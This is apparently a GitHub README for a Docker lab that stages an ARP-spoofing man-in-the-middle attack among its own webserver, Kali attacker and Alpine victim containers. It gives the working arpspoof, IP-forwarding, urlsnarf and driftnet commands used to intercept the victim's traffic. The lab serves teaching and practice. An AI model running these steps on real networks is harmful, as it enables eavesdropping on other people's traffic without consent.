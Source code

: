 # Setup for an Man-in-the-middle (MITM) attack 
### Prerequisite
- Docker is installed
- you can use docker-compose commands

### Start
Just use following command:
`docker-compose up --build`

### Infrastructure 
There are 3 Machines: 
- Webserver 
- MITM with Kali Linux
- Victim Node (just an simple Alpine Linux)

### Steps (MITM):

1. Setup IP forwarding:
`echo 1 > /proc/sys/net/ipv4/ip_forward`
2. start arpspoof(Important: let it open): 
`arpspoof -i eth0 -t [Victim-IP] -r [Webserver-IP]`
3. Now you can use:
 - `urlsnarf -i eth0` -> get HTTP-Requests
 - `driftnet -i eth0` -> get Images
 
 ### Steps (Victim)
 Just type inside `wget webserver:8080` or outside `docker exec victim webserver:8080`